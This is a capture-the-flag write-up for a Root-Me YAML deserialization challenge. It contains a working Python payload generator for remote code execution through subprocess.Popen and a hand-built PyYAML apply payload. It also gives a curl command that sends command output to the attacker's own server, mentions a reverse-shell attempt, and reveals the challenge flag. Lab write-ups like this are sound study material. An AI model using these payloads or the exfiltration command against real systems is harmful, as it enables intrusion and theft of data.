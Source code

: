 # Yaml - Deserialization

When you open the chall, this is what you will see

![anh1]()

Take a look at the HTTP request which we sent to the server, you will see that there's nothing seems to be injectable. However, if you look at the url, you will notice that the path of it is encoded in base64. The url is `http://challenge01.root-me.org:59071/eWFtbDogV2UgYXJlIGN1cnJlbnRseSBpbml0aWFsaXppbmcgb3VyIG5ldyBzaXRlICEg`. Decode the `eWFtbDogV2UgYXJlIGN1cnJlbnRseSBpbml0aWFsaXppbmcgb3VyIG5ldyBzaXRlICEg` part of the url and this is what you will get: `yaml: We are currently initializing our new site ! `. Try to change the part behind `yaml:` to `Hello world`, then base64 encode it and paste it in the url to check if we can inject the url or not.

![anh2]()

So we know that the url is injectable, it's yaml deserialization attack. Please read [this document](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf?utm_source=dlvr.it&utm_medium=twitter) to understand what yaml deserialization is. From the document, we know that this attack can lead to RCE and we can leverage that RCE to steal the admin password.

Why do we have to use RCE when we can just exploit it directly? Because when you execuse the command with `subprocess`, you will get a line like `<subprocess.Popen object at 0x7fa4b29509a0>` first, follow after that is the result of you command. But the challenge is only return a first line when you executed the code, so we must find another way.

![anh3]()

Thank to this [Python deserialization attack payload generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator), I can write my own code to exploit this chall. This challenge requires the payload to have the `yaml:` part before the payload, so we can't just use the original Github repos above. This is my code to exploit this challenge:

```python

import yaml
import subprocess
import base64


class Payload(object):
    def __init__(self, payload):
        self.payload = payload

    def __reduce__(self):
        return (subprocess.Popen, (self.payload,))


data = input("Enter RCE command: ")
if "\"" in data:
	quotesData = base64.b64decode("ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSAhIXB5dGhvbi90dXBsZQogIC0gcHl0aG9uCiAgLSAtYwogIC0gIl9faW1wb3J0X18oJ29zJykuc3lzdGVtKHN0cihfX2ltcG9ydF9fKCdiYXNlNjQnKS5iNjRkZWNvZGUoJw==") + \
        base64.b64encode(bytes(data, 'utf-8')) + base64.b64decode("JykuZGVjb2RlKCkpKSI=")
	newData = "yaml: " + quotesData.decode('utf-8')
	print(base64.b64encode(bytes(newData,'utf-8')))
else:
	ctf = {"yaml": Payload(tuple(data.split(" ")))}
	obj = yaml.dump(ctf)
	print(obj)
	newData = base64.b64encode(bytes(obj, 'utf-8'))
	print(newData)

```

I will briefly explain the above code.  My code will generate the payload to exploit the challenge with the formula `yaml: + payload`. If the payload have double quotes in it, we have to make a payload manually (not using `yaml.dump()`) because I haven't find out how to make a double quotes payload working with `yaml.dump()`. You can debug the `if` condition to understand why I write the code like that.

With the code above, we just need to enter the command we want to use and it will automatically generate the payload. I have already tried to use reverse shell, but whenever the server connect to my port, it automatically disconnect after a few seconds later. So I switch to another method, which is send data to a third-party server using `curl`.

The command I used to exploit is `curl -i -H "Content-Type: text/plain" -X POST --data "$(<command>)" <yourserver>`. Now I will explain why I write the command like that.

In linux, you can execute a linux command using `$()`. Using this method, you can send execute the command and send it to a third-party server with `curl`. So if I use `curl -i -H "Content-Type: text/plain" -X POST --data "$(ls -a)" `, I will list all the directories in the server and send it to my server.

![anh4]()

Go to my server to check if anything happened

![anh5]()

Good. Then read the `.password` file and we are done.

![anh6]()

The password is in the body of the request. It is `561385a008727f860eda1afb7f8eba76`.